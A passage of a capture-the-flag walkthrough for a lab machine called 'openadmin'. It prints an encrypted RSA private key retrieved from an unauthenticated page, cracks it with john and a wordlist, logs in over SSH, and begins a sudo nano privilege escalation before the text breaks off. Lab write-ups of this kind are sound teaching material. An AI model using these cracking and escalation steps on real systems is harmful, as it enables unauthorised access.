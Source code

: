 				if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
	                  $_SESSION['username'] = 'jimmy';
	                  header("Location: /main.php");
	              } else {
	                  $msg = 'Wrong username or password.';
	              }
				```
				Result: This file is not necessary since `main.php` can be accessed directly.
			3. `curl 127.0.0.1:52846/main.php` gives us:
				```
				-----BEGIN RSA PRIVATE KEY-----
				Proc-Type: 4,ENCRYPTED
				DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D
				
				kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
				ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
				ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
				6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
				ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
				y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
				9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
				piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
				/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
				40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
				fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
				9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
				X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
				S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
				FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
				Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
				RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
				uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
				1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
				XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
				yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
				+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
				qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
				z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
				K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
				-----END RSA PRIVATE KEY-----
				```
				The key is encrypted so lets bruteforce with `johntheripper`
				
		4. Method 2
			1. Reverse shell in `/var/www/internal`
		5. `john` bruteforce RSA key:
			```
			/usr/share/john/ssh2john.py key > hash
			sudo john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
			```
			Result: Key is `bloodninjas`
	4. `joanna` to `root`: `chmod 600 key` and `ssh joanna@10.10.10.171 -i key`
		1. `sudo -l`
			```
			User joanna may run the following commands on openadmin:
    			(ALL) NOPASSWD: /bin/nano /opt/priv
			```
		2. `cat user.txt`: **User Flag:** `c9b2cf07d40807e62af62660f0c81b5f`
		3. Search for nano on [GTFOBins](https://gtfobins.github.io/gtfobins/nano/)
			```
			nano
			^R^X